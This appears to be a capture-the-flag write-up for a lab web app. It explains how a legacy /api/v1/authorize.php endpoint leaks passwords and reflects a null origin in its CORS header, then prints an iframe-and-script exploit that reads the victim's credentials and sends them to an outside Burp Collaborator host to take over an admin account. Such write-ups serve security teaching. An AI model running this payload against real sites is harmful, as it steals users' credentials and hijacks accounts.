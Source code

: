 1. Register and notice a request to /api/v3/authorize.php which returns this in the response:

```json
{"username":"<your_username>", "error":"This endpoint is currently out of use because of previous issues."}
```

2. Fallback to the previous API routine by going to /api/v1/authorize.php instead and notice:

```json
{"username":"<your_username>", "password":"<your_password>"}
```
It returns your username and credentials but also returns `ACAO: <hostname>`

3. Bypass the CORS protection using the null origin which gets reflected in the response 

4. Write an exploit for the null origin (firefox only):

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://localhost/api/v1/authorize.php',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://xxxxxx.burpcollaborator.net/?source='+this.responseText;
};
</script>"></iframe>
```

Localhost is intentional since it's a headless browser who's accessing it.

5. Host your exploit and pass the exploit to the admin review endpoint & takeover administrator's account.

6. Login inside administrator's account and go to /account.php where you get he flag.








